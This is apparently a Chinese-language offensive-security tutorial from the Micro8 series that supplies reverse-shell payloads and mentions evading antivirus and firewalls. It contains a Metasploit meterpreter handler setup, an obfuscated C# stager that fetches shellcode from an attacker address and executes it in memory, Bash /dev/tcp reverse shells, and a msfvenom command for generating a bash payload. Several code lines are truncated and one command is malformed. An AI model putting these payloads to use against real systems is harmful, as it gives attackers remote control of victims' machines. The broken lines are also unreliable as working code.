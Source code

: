 ```yaml
---
title: 15、基于第十课补充payload2
date: 2019-09-21 19:04:09
comments: true
categories: 
 - Micro8系列
---
```



在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 C#，Bash

ps:在线代码高亮：http://tool.oschina.net/highlight

### 1、C#-payload
```code
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```

混淆：
```csharp
using System; using System.Net; using System.Net.Sockets; using System.Runtime.InteropServices; using System.
namespace RkfCHtll { class LiNGeDokqnEH {
static byte[] idCWVw(string VVUUJUQytjlL, int eMcukOUqFuHbUv) {
    IPEndPoint nlttgWAMdEQgAo = new IPEndPoint(IPAddress.Parse(VVUUJUQytjlL),
eMcukOUqFuHbUv); 
    Socket fzTiwdk = new Socket(AddressFamily.InterNetwork,
SocketType.Stream, ProtocolType.Tcp); 
    try { fzTiwdk.Connect(nlttgWAMdEQgAo);}
    catch { return null;}
    byte[] gJVVagJmu = new byte[4];
    fzTiwdk.Receive(gJVVagJmu, 4, 0);
    int GFxHorfhzft = BitConverter.ToInt32(gJVVagJmu, 0);
    byte[] mwxyRsYNn = new byte[GFxHorfhzft + 5]; 
    int yVcZAEmXaMszAc = 0;
    while (yVcZAEmXaMszAc < GFxHorfhzft)
    { yVcZAEmXaMszAc += fzTiwdk.Receive(mwxyRsYNn,yVcZAEmXaMszAc + 5, (GFxHorfhzft - yVcZAEmXaMszAc) < 4096 
    byte[] XEvFDc = BitConverter.GetBytes((int)fzTiwdk.Handle);
    Array.Copy(XEvFDc, 0, mwxyRsYNn, 1, 4); mwxyRsYNn[0] = 0xBF;
    return mwxyRsYNn;}
static void hcvPkmyIZ(byte[] fPnfqu) {
    if (fPnfqu != null) {
        UInt32 hcoGPUltNcjK = VirtualAlloc(0,(UInt32)fPnfqu.Length, 0x1000, 0x40);
        Marshal.Copy(fPnfqu, 0, (IntPtr)(hcoGPUltNcjK), fPnfqu.Length);
        IntPtr xOxEPnqW = IntPtr.Zero; 
        UInt32 ooiiZLMzO = 0;
        IntPtr wxPyud = IntPtr.Zero;
        xOxEPnqW = CreateThread(0, 0, hcoGPUltNcjK, wxPyud, 0, ref ooiiZLMzO);
        WaitForSingleObject(xOxEPnqW, 0xFFFFFFFF); }}
static void Main(){
    byte[] dCwAid = null; dCwAid = idCWVw("xx.xx.xx.xx", xx);
    hcvPkmyIZ(dCwAid); }
        [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 qWBbOS,UInt32 HoKzSHMU, UInt [DllImport("kernel32")]private static extern
IntPtr CreateThread(UInt32 tqUXybrozZ, UInt32 FMmVpwin, UInt32 H
[DllImport("kernel32")] private static extern UInt32
WaitForSingleObject(IntPtr CApwDwK, UInt32 uzGJUddCYTd);
```

![](../do/media/926b5570b97743dcfdc212edb6604589.jpg)


### 2、Bash-payload
```code
i >& /dev/tcp/xx.xx.xx.xx/xx 0>&1
```  
![](../do/media/49ee03061e17179d4022d4fc02df4da6.jpg)  

```code
exec 5<>/dev/tcp/xx.xx.xx.xx/xx
cat <&5 | while read line; do $line 2>&5 >&5;done
```  
![](../do/media/9b61ec08224188e6d2e172a47df7861a.jpg)

### 附录：
msfvenom 生成 bash
```code
root@John:~# msfvenom -p cmd/unix/reverse_bash LHOST=xx.xx..xx.xx LPORT=xx > -f raw > payload.sh
```

参数简化
项目地址：  
https://github.com/g0tmi1k/mpc  
![](../do/media/4b4fa44f7174bc8361028253fefead0e.jpg)

>   Micropoor
